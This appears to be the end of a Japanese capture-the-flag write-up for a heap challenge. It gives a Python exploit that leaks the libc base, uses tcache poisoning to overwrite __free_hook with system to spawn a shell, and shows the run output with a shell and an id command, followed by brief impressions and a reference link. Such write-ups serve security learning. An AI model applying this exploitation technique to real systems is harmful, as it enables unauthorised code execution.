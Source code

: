 ```python
change_directory("..")
change_directory("victim")
add_file("nihao", 0x50, "Hello")
change_directory("..")

# Change dir:victim to file:victim
remove_file("killer")
add_file("killer", 0x50, b'A' * 0x50 + b'\x02' + b'victim')

# Leak libc base
remove_file("big")
libc_base = u64(show_file("victim")) - main_arena - delta
dump("libc base = " + hex(libc_base))

# TCache Poisoning
add_file("big-revived", 0x58, 'Hello')
remove_file("killer")
remove_file("victim")
remove_file("big-revived")
add_file(":)", 0x58, p64(libc_base + libc.symbol("__free_hook")))
add_file(":(", 0x58, "/bin/sh")
add_file(";P", 0x58, p64(libc_base + libc.symbol("system")))

# Get the shell!
remove_file(":(")

sock.interactive()
```

やっとできたぁぁぁあ。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=24259)
[b'killer', b'128', b'66', b'165', b'200', b'225', b'85']
[ptrlib] heap addr = 0x55e1c8a54280
[ptrlib] libc base = 0x7f7e28ea8000
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
何食べたらこんな問題思い付くんだろ。
競技中にこれを解こうと思う人もすごい。

# 参考文献
[1] [https://github.com/hnoson/writeups/blob/master/tsgctf/2019/ssb/exploit.py](https://github.com/hnoson/writeups/blob/master/tsgctf/2019/ssb/exploit.py)